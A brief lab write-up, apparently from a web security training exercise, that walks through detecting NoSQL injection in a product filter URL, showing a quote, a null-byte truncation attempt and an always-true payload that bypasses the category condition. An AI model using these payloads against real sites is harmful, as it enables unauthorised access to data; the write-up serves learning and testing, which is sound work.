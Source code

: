 # Detecting NoSQL injection
First, I just injected ' to see if it would throw an error. it did.
`[...]/filter?category=Clothing%2c+shoes+and+accessories%27`
Then I tried adding a null byte like this to make MongoDB ignore the rest in case the prompt looked like
`this.category == 'xxxxx' && this.released == 1`
`[...]/filter?category=Clothing%2c+shoes+and+accessories%27%00`

That didn't do anything. Then I tried this:
`/filter?category=Clothing%2c+shoes+and+accessories%27%20||%20%271%27%20==%20%271`
Which always would evaluate to true. It solved the lab.